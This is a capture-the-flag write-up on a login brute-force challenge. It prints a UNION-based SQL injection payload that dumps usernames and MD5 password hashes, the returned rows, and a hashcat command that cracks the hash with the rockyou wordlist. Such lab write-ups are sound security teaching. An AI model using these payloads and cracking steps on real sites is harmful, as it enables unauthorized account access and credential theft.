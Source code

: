 # Bruteforce Login

On website with a login page, if we know a username (login) of a member of the site,
we can try every password in a big wordlist of old leaked password on internet.
The most famous wordlist is named rockyou, it contains more than 1 million passwords.
Many websites are protected against that kind of attack (using throttlers for example).

With the SQL Injection, we found a Member_Brute_Force schema in db_default table.

As _username_ and _password_ are columns of _Member_Brute_Force_ schema, which is part of the table _name _db_default_

We can now try
```sql
1 UNION SELECT username,password FROM Member_Brute_Force.db_default
```

And we get
```sql
ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: root
Surname: 3bf1114a986ba87ed28fc1b5884fc2f8

ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: admin
Surname: 3bf1114a986ba87ed28fc1b5884fc2f8
```

This is probably an hash for the root and admin password, it looks like md5

Lets try bruteforce it with hashcat in kali
```shell
┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt --force

3bf1114a986ba87ed28fc1b5884fc2f8:shadow

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We can also bruteforce the login page with BurpSuite, and the intruder tool with a wordlist,
but we have to know the login to bruteforce the password.

In this challenge, we can get the flag with the password "shadow" and any login,
not only "root" and "admin"...
